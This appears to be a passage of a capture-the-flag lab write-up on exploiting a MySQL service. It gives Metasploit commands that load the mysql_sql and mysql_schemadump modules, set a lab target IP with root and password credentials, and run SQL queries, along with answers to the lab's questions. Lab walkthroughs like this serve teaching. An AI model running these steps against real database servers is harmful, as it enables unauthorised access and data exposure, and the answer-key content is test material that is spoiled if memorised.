 > No answer required

**4. We're going to be using the "mysql_sql" module.  
Search for, select and list the options it needs. What three options do we need to set? (in descending order).**

```bash
# Search Module
search mysql_sql
# Select Module
use 0
# View Module Options
show options
```

![[ns2-mysql-6.png|640]]

> PASSWORD/RHOSTS/USERNAME

**5. Run the exploit. By default, it will test with the "select version()" command, what result does this give you?**

```bash
set PASSWOR password
set RHOSTS 10.10.199.166
set USERNAME root
```

![[ns2-mysql-7.png|440]]

> 5.7.29-0ubuntu0.18.04.1

**6. Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". How many databases are returned?**

```bash
set SQL "show databases"
run
```

![[ns2-mysql-8.png|440]]

> 4

### Task 10: Exploiting MySQL

**1. First, let's search for and select the "mysql_schemadump" module. What's the module's full name?**

![[ns2-mysql-9.png|600]]

```bash
search mysql_schemadump
use 0
show options
```
